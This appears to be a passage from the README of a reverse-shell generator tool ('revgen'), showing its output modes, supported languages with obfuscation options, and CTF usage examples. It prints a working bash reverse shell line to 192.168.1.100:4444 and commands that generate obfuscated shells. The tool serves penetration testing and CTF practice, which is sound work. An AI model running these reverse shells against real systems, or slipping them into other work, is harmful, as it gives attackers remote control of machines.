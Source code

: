 
## 🎭 Output Modes

### Standard Mode
```
[Bash]
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
💡 Classic bash reverse shell using /dev/tcp
```

### Fancy Mode
```
╔════════════════════════════════════════════════════════════╗
║                            Bash                            ║
╠════════════════════════════════════════════════════════════╣
║ bash -i >& /dev/tcp/192.168.1.100/4444 0>&1               ║
╚════════════════════════════════════════════════════════════╝
💡 Classic bash reverse shell using /dev/tcp
```

---

## 🔧 Supported Shells

| Language | IPv4 | IPv6 | Obfuscation | Description |
|----------|------|------|-------------|-------------|
| **bash** | ✅ | ✅ | ✅ | Classic `/dev/tcp` method |
| **python** | ✅ | ✅ | ✅ | Socket-based with subprocess |
| **php** | ✅ | ❌ | ✅ | fsockopen method |
| **powershell** | ✅ | ❌ | ✅ | Windows PowerShell |
| **netcat** | ✅ | ✅ | ✅ | Traditional netcat |
| **socat** | ✅ | ❌ | ❌ | Full TTY support |
| **ruby** | ✅ | ❌ | ✅ | TCPSocket method |
| **perl** | ✅ | ❌ | ✅ | Socket module |
| **golang** | ✅ | ❌ | ❌ | Compile and execute |
| **node.js** | ✅ | ❌ | ✅ | JavaScript reverse shell |
| **java** | ✅ | ❌ | ❌ | Java socket connection |

---

## 🎯 Real-World Usage

### CTF Scenarios
```bash
# Quick bash shell for Linux box
revgen --ip 10.10.14.50 --port 9001 --lang bash --copy

# Windows target? Use PowerShell
revgen --ip 10.10.14.50 --port 4444 --lang powershell --obfuscate
```
